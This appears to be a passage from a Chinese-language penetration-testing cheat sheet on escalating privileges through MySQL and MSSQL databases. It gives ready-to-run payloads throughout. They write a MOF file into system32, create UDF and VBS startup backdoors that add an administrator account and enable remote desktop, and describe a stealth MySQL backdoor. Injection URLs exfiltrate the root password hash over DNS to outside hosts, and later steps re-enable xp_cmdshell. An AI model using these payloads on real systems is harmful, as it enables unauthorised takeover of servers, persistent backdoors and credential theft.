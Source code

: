 ```basic
Filter = $EventFilter;
};
```
其中的第18行的命令，上传前请自己更改。

执行load_file及into dumpfile把文件导出到正确的位置即可。
```basic
select load file('c:/wmpub/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mov'
```
  执行成功后，即可添加一个普通用户，然后你可以更改命令，再上传导出执行把用户提升到管理员权限，然后3389连接之就ok了。
```basic
（1）UDF 提权 
create function cmdshell returns string soname ’udf.dll’ 
select cmdshell(’net user iis_user 123!@#abcABC /add’); 
select cmdshell(’net localgroup administrators iis_user /add’); 
select cmdshell(’regedit /s d:web3389.reg’); 
drop function cmdshell; 
select cmdshell(’netstat -an’); 
          
（2）VBS 启动项提权 
create table a (cmd text); 
insert into a values ("set wshshell=createobject (""wscript.shell"") " ); 
insert into a values ("a=wshshell.run (""cmd.exe /c net user iis_user 123!@#abcABC/add"",0) " );
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators iis_user /add"",0) " ); 
select * from a into outfile "C:\Documents and Settings\All Users\「开始」 菜单\程序\启动\a.vbs"; 

（3）Linx MySQL BackDoor 提权 

Mysql BackDoor 是一款针对 PHP+Mysql 服务器开发的后门,该后门安装后为 Mysql增加一个可以执行系统命令的"state"函数,并且随Mysql进程启动一个基 于 Dll 的嗅探型后门,这个后门在 Windows 下拥有与 Mysql 一样的系统权限,从 而巧妙的实现了无端口,无进程,无服务的穿墙木马. 用法：将 Mysql.php 传到 PHP 服务器上,点击"自动安装 Mysql BackDoor"， 然后直接执行命令即可 

（4）MIX.DLL 提权 
1.在独立 IP 的 sqlmap 下运 
2.禁用本地缓存 net stop dns 
3.http://localhost/inject.php?user=123' and if((SELECT LOAD_FILE(CONCAT('\\',(SELECT hex(user())),'.abc.com\foobar'))),1,1)%23 http://localhost/inject.php?user=123' and if((SELECT LOADFILE(CONCAT('\\',(SELECT concat(user,'',mid(password,2,41)) from user where user='root' limit 1),'.md5crack.cn\foobar'))),1,1)%23 

https://sanwen8.cn/p/1acWt8J.html 

4.DNS 突破 
参考文章：http://www.freebuf.com/vuls/85021.html
```

### mssql提权


#### 1. 恢复xp_cmdshell
```basic
Exec sp_configure show advanced options,1;
RECONFIGURE;
EXEC sp_configure xp_cmdshell,1;RECONFIGURE; 
EXEC sp_configure show advanced options, 1;
RECONFIGURE;
EXEC sp_configure xp_cmdshell, 1;
RECONFIGURE;-- 
```
#### 2. 如果 xp_cmdshell 还是不行就再执行命令 
```basic
dbcc addextendedproc("xp_cmdshell","xplog70.dll");-- 
或;
sp_addextendedproc xp_cmdshell,@dllname=xplog70.dll
```